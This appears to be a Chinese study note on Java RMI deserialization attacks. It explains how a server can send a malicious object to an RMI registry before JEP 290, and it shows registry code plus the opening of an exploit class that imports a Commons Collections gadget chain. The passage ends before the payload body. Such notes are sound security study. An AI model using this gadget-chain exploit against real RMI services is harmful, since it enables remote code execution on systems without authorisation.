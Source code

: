 ```yaml
---
created: '21/11/18'
title: RMI
tags:
  - java
  - java安全
---
```

# RMI
我们知道RMI在整个调用流程时都会出现序列化和反序列化，那么我们就可以从中利用反序列化漏洞

## 攻击方法
### 服务端攻击注册中心
当服务端在bind时，实际上也是向注册中心序列化传输对象，注册中心再将其反序列化，那么我们就可以利用这个漏洞来攻击注册中心(JEP 290之前)。

注册中心代码:
```java
package top.longlone.RMIStudy;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class RMIRegistry {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(2099);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
        while (true) ;
    }
}
```
服务器构造一个恶意对象并将其传输给注册中心，这里需要注意的是这个对象需要实现了Remote接口，所以我们这里使用了动态代理的技术，将恶意的类套在AnnotationInvocationHandler的map中，再动态代理实现Remote接口使用:
```java
package top.longlone.RMIStudy;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class HelloServer {
    public static void main(String[] args) throws Exception {
        try {
```